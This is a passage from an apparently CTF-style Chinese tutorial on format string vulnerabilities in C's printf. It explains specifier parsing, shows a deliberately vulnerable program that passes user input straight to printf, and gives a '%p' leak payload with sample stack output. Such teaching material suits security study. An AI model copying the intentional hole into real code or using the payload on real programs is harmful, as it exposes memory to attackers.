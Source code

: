 在进入 printf 之后，函数首先获取第一个参数，一个一个读取其字符会遇到两种情况

- 当前字符不是 %，直接输出到相应标准输出。
- 当前字符是 %， 继续读取下一个字符
	- 如果没有字符，**报错**
	- 如果下一个字符是 %, 输出 %
	- 否则根据相应的字符，获取相应的参数，对其进行解析并输出

聪明如你很快就发现一个问题，那就是如果格式化字符串和参数没有一一对应会发生什么呢？

当参数比格式化字符串多的时候，多余的参数会被函数省略，不进行输出。

**当格式化字符串比参数多的时候**， 程序会出现未定义行为。这意味着程序可能会从栈上读取额外的数据当作缺失的参数，进而导致输出结果不可预测，甚至可能使程序崩溃。 

这个就是格式化字符串的基本原理了，利用格式化字符串比给定的参数多来实现一些未定义行为，作为我们的利用条件。

## 利用漏洞

对于格式化字符串漏洞，我们常见的用法就是利用它来**泄露内存**或**覆盖内存**。想象一下，一个程序的内存你可以来读或者写的时候，那不就是被你给掌控了吗。

### 泄露内存

这里要用到最主要的格式化字符串原理是：

```python
#type：
"%p":用于输出指针的地址，通常以十六进制形式表示。
"%s":用于输出字符串。
```

#### 读取栈上的内容

我们先来编写一个例子：

```python
#include <stdio.h>
#include <string.h>

int main() {
    char buf[100];
    char buf1[]="fake_flag{sn0wp34r_unlik3_y0u}";
    char buf2[]="real_flag{sn0wp34r_lik3_y0u}";
    printf("答案就在栈上面,你找找看吧,5203\n");
    if(fgets(buf, sizeof(buf), stdin) != NULL) {
        buf[strcspn(buf, "\n")] = 0;
    }

    printf(buf);  // 保留格式化字符串漏洞
    return 0;
}
```

我们可以直接利用%p作为泄露的type，这样可以直接泄露出栈上的内存地址。

```python
payload=b'aaaa'+b'-%p'*20
#接受到的数据应该是这样的：
#一个地址就是一个偏移量。
b'aaaa-0x1-0x1-(nil)-0x55c7574782e1-(nil)-0x616c665f6c616572-0x343377306e737b67-0x795f336b696c5f72-0x7d7530-0x616c665f656b6166-0x337077306e737b67-0x6b696c6e755f7234-0x7d7530795f33-0x2d70252d61616161-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70-0x70252d70252d7025-0x252d70252d70252d-0x2d70252d70252d70'

```
